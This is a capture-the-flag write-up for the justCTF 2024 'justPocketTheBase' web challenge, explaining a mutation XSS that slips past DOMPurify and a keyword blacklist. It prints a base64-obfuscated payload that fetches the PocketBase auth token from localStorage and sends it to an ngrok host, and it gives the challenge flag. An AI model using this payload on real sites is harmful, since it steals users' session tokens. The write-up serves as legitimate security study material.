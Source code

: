 ```yaml
---
layout: post
title: justCTF 2024 Teaser justPocketTheBase Writeup
subtitle: mXSS (Constant Suffering Syndrome)
mathjax: true
share-img: https://github.com/user-attachments/assets/0eb50bf1-0969-4a75-a102-fd50f58b7c45
cover-img: https://github.com/user-attachments/assets/0eb50bf1-0969-4a75-a102-fd50f58b7c45
tags: [CTFs Writeups, Web]
author: M411K
---
```


## justPocketTheBase ≈ 44 solves

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/1caba872-34a9-48f4-a5aa-80f069d78e2f)

This challenge took me some time, not because it was hard per-say, but because I've spent too much time focusing on stuff that wasn't vulnreable but seemed sus, things like pocketbase configuration setup, pocketbase file uploading naming normalization, I kept focusing on the side stories rather than the main story, but nonetheless every side quest gave me more insight on the technology used by the author, which is always good, espicially that I haven't had much exposure to pocketbase before now.

## Setup

The challenge uses pocketbase database in the backend, and svelte as the front-end framework responsible for communicating with the api's provided by pocketbase in the backend:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/8aeead11-29be-4a8b-85bb-8583021954d6)

## Finding the XSS

From the start it was clear that you had to find an XSS, you have the bot, the main application where every user can post "plant" photos with their title, it was the classic setup.

So setting up to find the XSS, this block of code stands up:

```javascript
<script>
	import { onMount } from 'svelte';
	import { pb } from '$lib';

	let blacklist = [
		'window',
		'document',
		'cookie',
		'fetch',
		'navigator',
		'sendbeacon',
		'+',
		'_',
		'script',
		'!',
		'"',
		'#',
		'%',
		"'",
		'(',
		')',
		'*',
		'+',
		',',
		'-',
		'/',
		':',
		'?',
		'@',
		'[',
		']',
		';'
	];
	let id = null;
	let plant = null;
	let isLoading = true;
	let title;

	onMount(async () => {
		const params = new URLSearchParams(window.location.search);
		id = params.get('id');
		try {
			plant = await pb.collection('plants').getOne(id);
		} catch (error) {
			window.location.href = '/';
		} finally {
			isLoading = false;
		}
		setTimeout(() => {
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
			try {
				if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
					throw new Error('not safe!!!');
				}
				title.innerHTML = safe;
			} catch (err) {
				window.location.href = '/';
			}
		}, 100);
	});
</script>
```

Its in `routes/view-plant/+page.svelte` route, this routing scheme is specific to svelte, and manages how the `url/view-plant/id=x` will behave.

```javascript
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
```

The DOMPurify library was on a stable version and finding a 0-day in this labeled `easy` challenge was surely out-of-scope (although its comming in later challenges :haha:), but this way of sanitizing the title, creating an element with that content, then taking the innerText of the latter, then finally adding it to the title element that gonna be displayed to the user was all just over-engineered and opened the door for a mutation XSS (shortened as mXSS), where I will provide HTML entities in the title `&lt;` (`<`), `&gt;` (`>`) which are normally secure, so DOMpurify will not clear them off, but with the first div element, those html entities will be decoded, so when taking in them back and piping them to the legit title, they will be litterally treated as `<`, `>`, and we can create a html tags with them, so now its only a matter of crafting a payload wich is fairly easy, here is my final working payload:

```
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaCgnaHR0cDovLzIudGNwLmV1Lm5ncm9rLmlvOjEwMDMwLycrYnRvYShsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIikpLCB7IG1vZGU6ICduby1jb3JzJ30p`&gt;
```

the base64 is just:

```javascript
javascript:fetch('http://2.tcp.eu.ngrok.io:10030/'+btoa(localStorage.getItem(\"pocketbase_auth\")), { mode: 'no-cors'})
```

Surely after reporting my image, I get back the admin token in my flask server:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/bfa22b15-0358-466c-af62-dd39f808b330)

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/cae7f544-21c7-4cc7-bbd7-908a440835d6)

By changing your token to the flag token, you get can view his uploaded image, and by applying exiftool to it, you find flag:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/b037e1b7-2700-46e8-8809-845a23ef740f)

And Here you go!: `justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}`
